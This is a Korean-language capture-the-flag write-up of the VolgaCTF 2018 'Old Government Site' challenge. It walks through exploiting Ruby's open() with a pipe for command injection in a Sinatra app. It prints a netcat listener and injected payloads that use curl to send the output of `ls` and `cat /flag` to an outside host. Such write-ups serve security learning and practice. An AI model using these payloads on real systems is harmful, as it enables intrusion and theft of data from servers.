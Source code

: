 # Old Goverment Site

**Description:**
> It's an old government web-site. Please, don't touch it. It works properly.  
> http://old-government-site.quals.2018.volgactf.ru:8080/  
> [188.246.233.50:8080](http://188.246.233.50:8080)  
> [46.21.249.219:8080](http://46.21.249.219:8080)  

## Keyword
* Sinatra
* SSRF
* Ruby Command Injection

## Solution
메인 페이지를 보면 Contact, About 페이지와 Bulky Waste Collection, Electric Vehicle charging infrastructure, Council tax 페이지를 볼 수 있으며 해당 페이지들은 `/page?id=` 구조로 구분되어 있고 다른 특별한 점은 없었습니다.

http://old-government-site.quals.2018.volgactf.ru:8080/flag
![Sinatra](img/001.png)  
위와 같이 접근 시 `Sinatra doesn’t know this ditty.`라는 메시지를 볼 수 있고 Sinatra는 최소한의 노력으로 루비 기반 웹 애플리케이션을 빠르게 만들 수 있게 도와주는 DSL 입니다.

![Bad Request](img/002.png)  
그리고 위와 같이 에러 발생 시 해당 웹 애플리케이션이 루비로 동작하고 있음을 알 수 있습니다.

![Error](img/003.png)  
![Rack ENV](img/004.png)  
http://old-government-site.quals.2018.volgactf.ru:8080/page?id[]=36
위와 같이 접근 시 상세한 에러 페이지를 볼 수 있고 해당 페이지에서 `page?id=18` 정보도 알 수 있습니다.

`page?id=18`에 접근해보면 Private garbage company 페이지에서 `Site`와 Company description을 입력하여 전송할 수 있으며 `Site`에는 HTTP 형식에 따라 *error*와 *validated*가 발생하는 것을 볼 수 있습니다.
![error](img/005.png)  
![validated](img/006.png)  

문제에서 주어진 힌트를 통해 루비에서 발생 가능성이 있는 취약점을 이용하여 공격을 시도해보면 *Command Injection*이 가능한 것을 확인할 수 있습니다.  
`open(| Command Injection)`

![netcat](img/007.png)  
`nc -l 31339`

![Command Injection](img/008.png)  
```
|curl http://do9.kr:31339 --data "`ls`";
```

위와 같은 방법으로 flag를 찾아보면 /에서 flag 파일을 확인 후 flag를 확인할 수 있습니다.
![flag](img/009.png)  
```
|curl http://do9.kr:31339 --data "`cat /flag`";
```

## Flag
VolgaCTF{dedicated_to_all_goverment_site}

